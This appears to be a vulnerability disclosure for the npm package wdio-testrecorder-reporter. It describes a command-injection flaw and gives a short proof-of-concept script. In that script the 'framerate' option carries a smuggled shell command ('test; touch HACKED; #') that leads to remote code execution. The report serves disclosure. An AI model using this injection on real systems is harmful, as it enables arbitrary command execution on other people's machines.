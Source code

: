 # Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/tamil777selvan/wdio-testrecorder-reporter/blob/master/index.js#L111

# POC

```js
// poc.js
var wdio = require('wdio-testrecorder-reporter').default;
var conv = new wdio({'outputDir':'s', 'videoOutputPath':'s', 'framerate':'test; touch HACKED; #'});
suiteStat = {};
suiteStat.complete = function(){};
conv._events['suite:start']({'type':'scenario', 'title':'s'});
conv._events['suite:end']({uid:'s'});
conv._events['suite:start']({'type':'scenario'})
conv._events['suite:end']({});

```

# Impact
`RCE` via command formatting on `wdio-testrecorder-reporter`
